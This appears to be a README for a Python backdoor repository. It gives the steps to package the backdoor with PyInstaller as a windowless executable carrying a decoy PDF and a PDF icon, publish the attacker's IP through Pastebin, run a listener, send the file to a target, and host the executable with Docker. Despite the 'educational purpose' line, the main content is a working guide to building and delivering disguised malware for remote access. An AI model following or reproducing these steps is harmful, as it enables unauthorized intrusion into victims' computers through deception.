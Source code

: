 # This Backdoor dosen't bypass windows defender and other AV's

For educational Purpose only
Dosen't matter if target dosen't have pyhton installed

You should have these requirements :
1. Python installed with required packages 
2. Pyinstaller installed
3. Update ur current IP address in Pastebin.com
4. Must have docker installed if using it

## Steps :
1. do git clone https://github.com/Anonomous69/Backdoor
2. cd to directory
3. do C:\Users\username\Appdata\wherever\your\pyinstaller\is\there\pyintstaller.exe --add-data=sample.pdf:.  -—onefile -—noconsole --icon pdf.ico backdoor.py
4. The created backdoor must be in your "dist" folder in that directory
5. Run Listener is your machine and send the backdoor to target
6. when target clicks backdoor, u get the connection

## Docker :
for a proper web server (lacking in windows) to host the backdoor.exe file use docker ( I know using Python webserver is more simpler but I am using something different )
steps:
1. cd Docker
2. docker build -t Dcoker .
3. docker run Dcoker
and then go to <your_IP>:8080 in broser to download the ready-made .exe
